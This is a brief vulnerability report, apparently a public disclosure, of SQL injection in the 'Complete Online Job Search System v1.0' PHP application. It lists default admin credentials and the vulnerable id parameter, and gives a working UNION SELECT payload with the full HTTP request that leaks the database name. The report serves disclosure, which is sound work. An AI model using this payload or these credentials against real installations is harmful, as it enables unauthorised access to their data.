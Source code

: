 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/category/index.php?view=edit&id=

Vulnerability location: /eris/admin/category/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/category/index.php?view=edit&id=-24%27%20union%20select%201,database()--+ // Leak place ---> id

```sql
GET /eris/admin/category/index.php?view=edit&id=-24%27%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849198-b963b9b7-f687-4761-91e5-1883d0b10c36.png)

![image](https://user-images.githubusercontent.com/54017627/170849196-5ebee3d8-e7ac-415d-99c1-8443d94f63ea.png)
